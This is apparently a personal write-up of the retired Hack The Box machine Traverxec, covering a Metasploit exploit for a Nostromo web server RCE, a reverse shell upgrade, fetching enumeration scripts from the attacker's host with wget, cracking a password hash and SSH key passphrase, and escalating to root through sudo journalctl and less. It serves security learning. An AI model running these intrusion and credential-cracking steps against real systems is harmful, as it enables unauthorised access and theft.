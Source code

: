 # Traverxec
Details:
- Traverxec IP: 10.10.10.165
- Kali IP: 10.10.14.111
- Difficulty: easy
- Date of writeup: 2 May 2020
- **NOTE**: there are no screenshots of the machine because it got retired before I could write this. Luckily, I had enough personal notes to write this up. I aplogize for the lack of images.

Traverxec was my first ever box. Although it was marked as **easy**, it took me some time to solve it. To be fully honest, at some point I had to go on a search for tips in Reddit and Hackthebox forums, which felt a little bit like cheating. It’s hard to be online searching for tips and not spoil the whole box, but it’s possible. I’ve found Reddit specially useful in that sense.

Sections:


## Recon and finding an RCE
So, first things first: recon.
```shell
kali$  nmap -sC -sV 10.10.10.165
```

When checking out the results, something weird pops up to sight immediately: there is a Nostromo web server running on port 80, version 1.9.6. ```searchsploit nostromo``` will show whether this web server has known vulnerabilities (and the exploits). 

![](images/Traverxec_1.png?raw=true)

Sure enough, there’s an RCE vulnerability. We can run it directly in metasploit.

```
kali$  msfconsole
kali$  search nostromo
kali$  use exploit/multi/http/nostromo_code_exec
kali$  set RHOSTS 10.10.10.165
kali$  set LHOST tun0
kali$  run
```

This gives us a shell. Running ```whoami``` shows that we’re ```www-data```, the owner of the web server. To get a proper shell, we can use a reverse shell with the commands in [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) site, and then running:
```
www-data$  python -c ‘import pty; pty.spawn(“/bin/bash”)’
Press CTRL-Z
kali$  stty raw -echo
kali$  fg
Press enter once more
```

## Enumerating and poking around
Ok, now we have a foothold in the server, we need to privesc to a user. Here’s where I got stuck for a while and, eventually, had to search for tips. I tried a lot of things before finding out the right way to go: enumerating with tools such as [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and [LinEnum](https://github.com/rebootuser/LinEnum), looking at possible backups, searching for scripts or custom binaries, etc. None of this were the correct answer of course, but just for the sake of it I’ll write them down.

An easy way to get files to the server is to download them to your kali machine and then:
```
kali$  python3 -m http.server 8080
www-data$  wget “http://10.10.14.111:8080/filename.sh
```

So we can run
```
www-data$  chmod +x LinEnum.sh
www-data$  chmod +x linpeas.sh
www-data$  ./LinEnum.sh -r linEnumReport -e /tmp/ -t
www-data$  ./linpeas.sh -a > linpeasReport.txt
```

As said, these scripts didn’t come back with meaningful information. We discover user **david** in ```/etc/passwd``` file, which is surely the user we need to own. I attempted to take a look at david’s files:
```
www-data$  cd /home/david → succeeds
www-data$  ls -la → fails
```

This is weird behavior. If you read the [last section](#learnings-from-ippsec-walkthrough), it will make sense.

Poking around in nostromo’s folder (```/var/nostromo```), we find a hash in the ```conf/.htpasswd``` file. Running ```hashid``` shows that it is an MD5Crypt hash. I saved it in a file called hash.txt
```
kali$  hashcat -m 500 hash.txt rockyou.txt –force
```

The rockyou wordlist can be found at ```/usr/share/wordlists/rockyou.txt.gz```. The result of hashcat is **Nowonly4me**.

It seems I had something going on, right? Well, I used it to access the ssh service running in port 22, but nothing:
```
kali$  ssh david@10.10.10.165
```

So, what now?

## Search and learn
One of the tips said, if I remember correctly, "take a look at the nostromo docs, specially regarding public_www". So I did, and found out that when there’s certain configuration ([homedirs](https://gsp.com/cgi-bin/man.cgi?topic=NHTTPD#HOMEDIRS), nostromo creates a public folder in the home folder of the user. I looked at nostromo configuration files and sure enough, the server had this configuration for user david.

Important learning here: when there’s a weird product in an environment, try to find out ways it can be misconfigured, outdated, etc. Do the research!

In ```/home/david/public_www```, there were some filed of interest, specially ```backup-ssh-identity-files.tgz```. Using ```zcat```, it’s possible to see that it is indeed an ssh key pair. We have david’s private key and public certificate.

We copy those to the Kali machine, under the name ```david_rsa``` and ```david_rsa.pub```. By looking at their content, we can easily find out that the private key is encrypted (the header of the key clearly says so)

![](images/Traverxec_2.png?raw=true)

We can get the passphrase using john:
```
kali$  python /usr/share/john/ssh2john.py david_rsa > file4john
kali$  john file4john
```

We find out this way that the passphrase is **hunter**. We can verify this and use it:
```
kali$  openssl rsa -check -noout -in david_rsa
kali$  chmod 600 david_rsa
kali$  ssh -i david_rsa david@10.10.10.165
```

By writing the passphrase, we get a shell as david

## Privesc to root
Luckily, after the struggle with nostromo, getting root was quite easy.

In david’s home folder there were some scripts in the bin directory. One of them (```server-stats.sh```) runs the following command: ``` sudo journalctl -n5 -unostromo.service```. I tried to run that myself and was successful. This is a good thing, it seems david is in the sudoers file for this command. ```journalctl``` uses ```less``` to display the output, and it is listed in the [GTFOBins](https://gtfobins.github.io/) list. This is a list of binaries that can be used to bypass security restrictions.  ```less```, for example, allows to spawn an interactive shell, which will run as root.

I played around a little bit, without getting it to work until I realized that I needed to reduce the terminal screen so ```less``` would be used (the ```-n5``` means it will only display the last 5 lines). 

Btw, changing the command to display more lines didn’t work, because it didn’t match the configuration of the sudoers file.

**There’s root!**

## Learnings from [ippsec walkthrough](https://www.youtube.com/watch?v=6_C9ShH9v2w)

Great walktrhough, as usual. 
- He explains why I had to do a reverse shell after getting a shell as www-data in metasploit. Apparently, the exploit script was opening a ```/bin/sh``` shell in the server. ```sh``` was a link to ```dash```. If the exploit script had run ```/bin/bash```, then I wouldn’t have had to open another reverse shell.
- He explains why it was possible to ```cd``` to ```/home/david``` but not list its content. Apparently, to ```cd``` to a folder you only need to have execution permission. To list it, you need read permission.

![](images/Traverxec_3.png?raw=true)

- He explains why sudo terminates when a pipe appears. So we couldn’t achieve a root shell by doing ``` sudo journalctl -n5 -unostromo.service | less```
- He explains what the vulnerability does and why it succeeds by analyzing nostromo code
